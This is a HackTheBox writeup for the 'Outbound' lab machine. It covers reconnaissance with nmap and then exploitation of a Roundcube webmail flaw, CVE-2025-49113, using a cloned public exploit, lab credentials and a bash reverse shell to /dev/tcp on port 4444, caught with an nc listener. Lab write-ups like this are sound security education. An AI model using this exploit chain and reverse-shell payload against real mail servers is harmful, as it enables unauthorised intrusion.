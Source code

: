 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


Kicking off my return to HackTheBox after a long break, I stumbled upon an intriguing new machine—Outbound. Ready to dust off my hacking skills, I jumped straight into action by quickly setting up the VPN connection:

sudo openvpn outbound.ovpn


i poked at the box with an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
Here's the result of the scan:
![namp](/outbound.png)

I discovered two open ports: 22 (SSH) and 80 (HTTP).

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, so I added the following line to my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```

After refreshing the page, I reached a Roundcube webmail login. Interestingly, the login credentials were provided directly on the page:
![machine](/htb.png)
After logging in, I quickly noticed the Roundcube version had a vulnerability: CVE-2025-49113.
(Quick reminder: Always check the software version for known CVEs!)

Next, I started a listener on my attacker machine:

```bash
nc -nlvp 4444
```
Then, on the target, I cloned the exploit repository and executed the exploit:

```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
Now, with a shell as www-data amd you can see the exploit executed sucessfully 

![www-data](/htb2.png)